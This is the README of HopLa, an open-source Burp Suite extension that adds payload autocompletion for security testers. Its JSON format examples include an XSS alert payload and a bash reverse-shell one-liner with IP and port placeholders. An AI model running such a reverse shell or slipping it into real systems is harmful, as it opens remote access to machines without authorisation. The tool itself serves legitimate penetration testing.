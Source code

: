# HopLa

💥 All the power of PayloadsAllTheThings, without the overhead. 
This extension adds autocompletion support and useful payloads in Burp Suite to make your intrusion easier.

Feel free to improve with your payloads ! ❤️

Developed by Alexis Danizan [![Twitter Follow](https://img.shields.io/twitter/follow/alexisdanizan?style=social)](https://twitter.com/alexisdanizan/)  
Released as open source by [Synacktiv 🥷](https://www.synacktiv.com/) 


![Demo GIF](img/demo.gif)

## Getting Start


### Installation

 * Download the jar file from the release directory
 * Add it to Burp Suite using the Extender tab

### Build

Execute `gradle build` and you'll have the plugin ready in `releases/HopLa.jar`.

## Usage

By default HopLa is ship with default payloads. You can add your's by loading a custom JSON file in the the menu. 

At the first usage HopLa creates a JSON file containing all the payloads in the jar file directory.

Press `Ctrl+Q` to display the payload library menu.

You can disable the global autocompletion in the top menu.

For i3, add the following line to `$HOME/.config/i3/config` for floating frame:

```
for_window [class=".*burp-StartBurp.*" title="^ $"] floating enable
```

### How to add payloads

The JSON payload file follow the structure:

```json
{
    "categories": [
        {
            "name": "XSS",
            "values": [
                {
                    "name": "Simple",
                    "value": "<script>alert(1)</script>"
                },
                {
                    "name" : "Nested XSS menu",
                    "values": [
                        {
                            "name": "Simple 2",
                            "value": "<script>alert(1)</script>"
                        }
                    ]
                }
            ]
        }
    ],
    "keywords": [
        {
            "name": "Headers",
            "values": [
                "X-Forwarded-For",
                "X-Originally-Forwarded-For",
                "X-Originating-Ip",
                "X-Originating-IP"
            ]
        }
    ]
}
```
There is no nesting limit.

You can automatically add a prompt dialog:
```json
{
    "name":  "Bash UDP",
    "value":  "sh -i >& /dev/udp/§IP§/§PORT§ 0>&1",
    "prompt": ["IP","PORT"]
},
```

To add only keywords that do not appear in the menu, you can add them in the keywords category:

```json
{
    "keywords": [
        {
            "name": "Headers",
            "values": [
                "X-Forwarded-For",
                "X-Originally-Forwarded-For",
                "X-Originating-Ip",
                "X-Originating-IP"
            ]
        }
    ]
}
```

## Roadmap

* Support custom key binding for payload menu

## Thanks To

 * https://github.com/Static-Flow/BurpSuiteAutoCompletion
 * https://github.com/d3vilbug/HackBar

Thanks a lot for your awesome work !

## License

Released under BSD 3-Clause License see LICENSE for more information

Please feel free to report bugs, suggest features, or send pull requests.
